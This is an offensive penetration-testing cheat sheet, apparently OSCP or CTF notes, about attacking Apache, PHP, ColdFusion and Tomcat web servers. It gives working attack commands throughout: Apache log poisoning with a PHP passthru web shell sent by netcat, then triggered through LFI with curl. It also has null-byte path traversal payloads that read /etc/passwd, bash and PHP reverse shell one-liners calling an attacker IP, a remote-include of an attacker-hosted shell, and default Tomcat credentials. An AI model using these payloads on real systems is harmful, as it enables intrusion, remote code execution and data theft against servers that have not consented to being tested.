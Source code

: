 Apache
* Log paths: https://wiki.apache.org/httpd/DistrosDefaultLayout
* Can't access an alt HTTP(S) port (8080, 443)?
    * User agent possibly blocked?
    * If LFI exists, check `httpd.config` -> change user agent to accepted one.
* Log file injection
```bash
# Inject code into logs
$ nc <IP> <port>
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: <IP>
Connection: close

# Use LFI to execute commands
$ curl http://target.com?lfi_file=/var/log/apache2/access.log&cmd=<command>
```

phpLiteAdmin 1.9.3 Remote PHP Code Injection:
* https://v3ded.github.io/ctf/zico2.html

LFI / RFI
(LFI = HIGH CHANCE OF RFI, SO TRY TO INCLUDE HTTP://ATTACKER/RSHELL.PHP)
```
# Append NULL bytes (prevent .ext concat to the end by application)
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=../../../etc/passwd.html
http://example.com/index.php?page=../../../etc/passwd%en
http://example.com/index.php?page=../../../etc/passwd%00%en
```

PHP
* Check `phpinfo()`
* RFI: If reverse-shell doesn't work, include `<?php phpinfo();?>` to check for banned functions
* PHP reverse shell:
```
$ bash -i >& /dev/tcp/10.10.14.3/4444 0>&1
$ /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'
$ php -r '$sock=fsockopen("10.10.14.3",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Apache
* Exposed `server-status` page: https://github.com/mazen160/server-status_PWN. Listen in to all requests by clients using this tool, including cookies.

ColdFusion vulns
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers
* https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/
* ColdFusion LFI: http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

MiniShare HTTP Server 1.4.1
* https://github.com/codingo/OSCP-2/blob/master/Exploits/MS_v1.4.1.py

Tomcat Web Manager (JSP reverse shell upload)
* Default creds: `tomcat:tomcat`
* https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
